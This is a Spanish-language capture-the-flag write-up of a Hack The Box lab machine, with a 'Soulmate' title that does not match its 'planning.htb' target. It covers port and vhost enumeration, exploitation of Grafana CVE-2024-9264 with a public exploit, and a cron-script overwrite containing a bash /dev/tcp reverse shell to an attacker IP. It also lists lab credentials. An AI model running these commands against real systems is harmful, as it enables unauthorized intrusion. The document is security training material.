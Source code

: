 ```yaml
---
title: "Soulmate HTB"
date: "2025-09-10"
description: "Escalada de privilegios en servicio mal configurado. Writeup de HTB."
difficulty: "Intermedio" # Puede ser 'Fácil', 'Intermedio', 'Difícil', 'Insane'
tags: ["htb", "privilege-escalation", "web", "grafana", "cve-2024-9264", "docker"]
target_ip: "10.10.11.68"
target_domain: "planning.htb"
client_name: "Hack The Box"
status: "Completed" # Útil para filtrar: 'Completed', 'WIP', 'Pending'


---
```


![Banner SoulMate](/img/soulmatehtb.png)


**Objetivo:** `IP: 10.10.11.68` <br>
**Dominio:** `planning.htb` <br>
**Plataforma:** `Hack The Box` <br>
**Dificultad:** **Intermedio**


## 💻 Configuración Inicial

Para asegurar la documentación completa y organizada, se creó la siguiente estructura de carpetas:

```bash
# Script para crear estructura de carpetas
#!/bin/bash

MAQUINA="soulmate" # Ejemplo
mkdir -p "$MAQUINA"/{content,nmap,scripts}

echo "Estructura creada:"
echo "├── $MAQUINA/"
echo "    ├── content/ (Archivos de la web, dumps, etc.)"
echo "    ├── nmap/ (Resultados de escaneos)"
echo "    └── scripts/ (Exploits, shell reversa, linpeas, etc.)"
````

**Credenciales Iniciales (Si existen):**

| Servicio | Usuario | Contraseña | Notas |
| :--- | :--- | :--- | :--- |
| **Web (Admin)** | `admin` | `0D5oT70Fq13EvB5r` | Encontradas vía enumeración / leak. |
| **SSH** | | | Pendiente de obtener. |

-----

## 🔎 Fase 1: Escaneo y Enumeración

### 🌐 Escaneo de Puertos (`nmap`)

Se realizó un escaneo completo de puertos (`-p-`), seguido de una detección de servicios y scripts comunes (`-sSCV`) en los puertos abiertos.

**Comandos:**

```bash
nmap -sS -p- --open -T4 -vvv -n -Pn 10.10.11.68 -oN nmap/initial_scan.txt
nmap -sSCV -p22,80 10.10.11.68 -oN nmap/service_scan.txt
```

**Resultados Destacados:**

| Puerto | Servicio | Versión | Notas |
| :--- | :--- | :--- | :--- |
| **22/tcp** | `ssh` | OpenSSH 9.6p1 | **OpenSSH 9.6p1** (Ubuntu) |
| **80/tcp** | `http` | nginx 1.24.0 | **nginx 1.24.0** (Ubuntu) |

### 🔍 Enumeración Web (Puerto 80)

El puerto 80 redirige a `http://planning.htb/`. Se añadió el dominio al archivo `/etc/hosts`.

#### Descubrimiento de Directorios (`gobuster/ffuf`)

Se utilizó **Gobuster** para encontrar rutas:

```bash
gobuster dir -u [http://planning.htb](http://planning.htb) -w /usr/share/wordlists/dirb/common.txt -t 50
```

**Directorios Encontrados:** `/img`, `/css`, `/lib`, `/js`, `/api`, `/apis`, `/apidocs`.

#### Subdominios y Vhosts

La herramienta **WhatWeb** y la inspección manual revelaron la tecnología web: **Bootstrap**, **JQuery 3.4.1**, **nginx/1.24.0**, y una mención a un posible servicio **Grafana**.

Se realizó un escaneo de subdominios, revelando un host crucial: `grafana.planning.htb`.

```bash
# Comando de ejemplo para vhosts/subdominios
gobuster vhost -u [http://planning.htb](http://planning.htb) -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
```

**Subdominio Clave:** `grafana.planning.htb` (Grafana 11.0.0).

-----

## 💥 Fase 2: Explotación (Obtención de Acceso)

### 🎯 Ataque a Grafana (CVE-2024-9264)

La instancia de **Grafana 11.0.0** en `grafana.planning.htb` presentaba la **CVE-2024-9264** (Arbitrary File Write / RCE).

**Pasos:**

1.  Se utilizaron las credenciales encontradas (`admin / 0D5oT70Fq13EvB5r`).
2.  Se identificó un *exploit* de Python en GitHub: [https://github.com/nollium/CVE-2024-9264](https://github.com/nollium/CVE-2024-9264).
3.  Se ejecutó el *exploit* con una *reverse shell* de **Perl**.

**Comando de Explotación:**

```bash
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'perl rev_perl.sh' [http://grafana.planning.htb](http://grafana.planning.htb)
```

**Resultado:** Obtención de una *reverse shell* como el usuario **`root`** dentro del contenedor **Docker** de Grafana.

-----

## ⬆️ Fase 3: Escalada de Privilegios (Root)

### 🚪 Pivoteo y Escape del Contenedor

Una vez dentro del contenedor (como `root`), se ejecutó `linpeas.sh` para buscar *leaks* de información y vectores de escape.

**Apuntes de la Enumeración:**

1.  **Variables de Entorno:** Se encontraron credenciales para otro usuario:
      * `GF_SECURITY_ADMIN_USER=enzo`
      * `GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!`
2.  **Tareas Programadas (`crontab.db`):** Dos tareas llamaron la atención.
      * Una tarea diaria que hace un `docker save` del contenedor `root_grafana`, lo comprime y lo cifra con **`zip -P P4ssw0rdS0pRi0T3c`**.
      * Una tarea recurrente (`* * * * *`) que ejecuta el script `/root/scripts/cleanup.sh`.

### 🔑 Compromiso de Root (Contenedor)

**Vector de Escalada:** La tarea **Cleanup** se ejecuta cada minuto, y el *script* `/root/scripts/cleanup.sh` es **escribible** por el usuario actual (`root` del contenedor).

**Explotación:**

1.  Se modificó `/root/scripts/cleanup.sh` para contener una *reverse shell* simple.
2.  Al minuto, la *reverse shell* se ejecutó con los privilegios del *host* (debido a cómo Docker ejecuta `cron` en este contexto).

**Script de Modificación (ejemplo):**

```bash
echo "bash -i >& /dev/tcp/10.10.14.X/4445 0>&1" > /root/scripts/cleanup.sh
# Luego, se esperó la conexión en el listener
```

**Credencial Root Final:** Se encontró la contraseña `P4ssw0rdS0pRi0T3c` en el comando `zip` de la tarea de *backup*. Esta podría ser una pista para otras credenciales, o la propia *password* del `root` del *host* (dependiendo de la máquina).

-----

## 📌 Resumen y Conclusiones

| Categoría | Detalle Clave |
| :--- | :--- |
| **Puertos Abiertos** | 22 (SSH), 80 (HTTP/NGINX) |
| **Servicio Clave** | Grafana 11.0.0 en `grafana.planning.htb` |
| **Credenciales Útiles** | `admin:0D5oT70Fq13EvB5r` (Web), `enzo:RioTecRANDEntANT!` (Env Var) |
| **Vulnerabilidad** | **CVE-2024-9264** (RCE en Grafana) |
| **Escalada de Privs** | **Cronjob Escribible** (`/root/scripts/cleanup.sh`) dentro del contenedor. |
| **Flag Root** | Obtenida tras el *escape* del contenedor. |
| **Notas Adicionales** | La *password* `P4ssw0rdS0pRi0T3c` de la tarea de *backup* fue una pista crucial. |

```
```